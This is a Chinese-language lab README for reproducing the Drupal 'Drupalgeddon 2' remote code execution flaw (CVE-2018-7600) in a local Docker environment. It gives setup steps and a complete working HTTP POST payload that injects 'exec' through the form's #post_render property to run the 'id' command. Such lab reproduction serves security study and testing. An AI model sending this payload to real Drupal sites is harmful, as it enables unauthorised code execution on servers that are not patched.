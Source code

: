 # Drupal Drupalgeddon 2 远程代码执行漏洞（CVE-2018-7600）

Drupal 是一款用量庞大的CMS，其6/7/8版本的Form API中存在一处远程代码执行漏洞。相关分析如下：

- https://research.checkpoint.com/uncovering-drupalgeddon-2/

## 漏洞环境

执行如下命令启动drupal 8.5.0的环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

## 漏洞复现

参考[a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py)，我们向安装完成的drupal发送如下数据包：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

成功执行代码，这个代码最终执行了id命令：

![](1.png)